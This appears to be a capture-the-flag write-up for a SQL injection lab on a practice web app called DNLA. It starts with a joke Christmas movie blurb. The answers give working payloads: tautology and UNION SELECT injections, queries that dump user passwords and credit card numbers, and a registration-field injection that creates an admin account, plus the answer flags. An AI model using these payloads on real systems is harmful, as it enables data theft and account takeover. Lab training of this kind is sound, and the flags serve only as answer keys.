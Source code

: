 ## SQL Injection ##

Web Exploitation SQL
×
THIS HOLIDAY SEASON Grizzled Vet drinks egg nog and opens a letter. "Dear Sir" "It has come to my attention you've been a bad boy." "...events in Krasnovia..." "...Naughty List..." "Love, Santa" WHEN ONE MAN FIND HIMSELF ON THE NAUGHTY LIST... Grizzled Vet: "Yeah, we did some black ops in Krasnovia. Did some things that will haunt me til I die." HE'LL DO WHATEVER IT TAKES... Grizzled Vet: "But it saved lives! WE SAVED LIVES!!!" TO BE NICE. Grizzled Vet: "I'm in." THIS CHRISTMAS Santa's Elf: "It's the server, sir!" PREPARE Santa: "What about it?" TO GET The Elf: "The SQL. It's been..." INJECTED!!! Grizzled Vet: "Looks like my behavior base isn't the only thing left unsanitized" WEB EX 2: THE SeQueL COMING THIS CHRISTMAS TO AN AOR NEAR YOU RATED R FOR REALLY VULNERABLE DATABASES CHECK YOUR LOCAL MAP FOR CHALLENGES

### DNLA Category 5 ###

On the DNLA site identify the flag using the Categories page.
To answer input the characters inside the flag.

##### Answer ####

1. create a dynamic tunnel to the jumpbox
    `ssh student@10.50.49.22 -D 9050`
    `proxychains nmap -Pn --open 10.100.28.48`
2. From running above, we get:
    Nmap scan report for 10.100.28.48
    Host is up (0.0027s latency).
    Not shown: 998 closed ports
    PORT     STATE SERVICE
    80/tcp   open  http
    4444/tcp open  krb524
3. Do wget on this site
    http:

Go to category from the 10.100.28.48 page. 
Go to 1st category 
Modify the url like so http://10.100.28.48/cases/productsCategory.php?category=1 or 1=1
10.100.28.48/cases/productsCategory.php?category=1 


### Tables 5 ###

How many user created tables are able to be identified through Injection of the web database?

 6
 8
 4
 7
 5

##### Answer ####

list out all the tables and determine which ones are user created

To the answer above, append UNION SELECT table_schema,table_name,column_name FROM information_schema.columns to the url, so, http://10.100.28.48/cases/productsCategory.php?category=1 UNION SELECT table_schema,table_name,column_name FROM information_schema.columns

Then count the tables from the end of the schematics... so... 

categories, members, orderlines, orders, payments, permissions, products and share, giving 8

### Admin credentials 5 ###

Provide the password for users with administrator access to the DNLA database. To answer input the flag.

##### Answer ####

Write the query to provide the password.... 
http://10.100.28.48/cases/productsCategory.php?category=1 Union select id,username,password from sqlinjection.members

flag: hlvAZnST4LIaGVHvOFx8

### Products 5 ###

Utilizing the Search page on DNLA, identify the vulnerability to find the flag. To answer input only the characters inside the flag.

##### Answer ####

In the search bar search for `ram' or 1='1` provided in the instructions... 
flag will be down in the search

### SQL version 5 ###

Identify the version of the database that DNLA is utilizing.
To answer input the full version.

##### Answer ####

http://10.100.28.48/cases/productsCategory.php?category=1 UNION SELECT @@version, database(),3

### Credit card 5 ###

Utilizing the input field on DNLA budget page, find the flag associated with credit cards. To answer the question enter only the characters inside the flag.

##### Answer ####

Write the query to provide the password.... 
http://10.100.28.48/cases/productsCategory.php?category=1 Union select id,creditcard_number,date from sqlinjection.payments

flag -> TEN48vhlKKeMPvUDdN0F

### Id search 5 ###

Find the flag associated with id 1337.

Hint
Look to the left and look to the right.

##### Answer ####

http://10.100.28.48/cases/productsCategory.php?category=1 union select data,comment,id from sqlinjection.share4

De-encode the value from base 64 becomes OlDr6z4EXBKyjWh3xkeR

### Create an Admin User 8 ###

Using the /cases/register.php page on DNLA create a user with admin permissions, ensuring the firstname is set to Hacker. Once created log in to get the flag.

##### Answer ####

find the vulnerable field by inserting 'ram' or 1='1' to all the fields and looking at the output fields... see the one which one is not a string. 

You will find that the username field is the one that is vulnerable. 

For the first name, put the value as Hacker, the Last name put the value as last name. 

The username is the vulnerable field, insert this code `username123', 'password', 'email', 1);# ` into the username field. Put random input to the password and email fields. 
Click register. 

You will be successfully registered. Now login with username123 and password to get your hash. 

Ans -> JMefAxXw7LVqVyaeaApD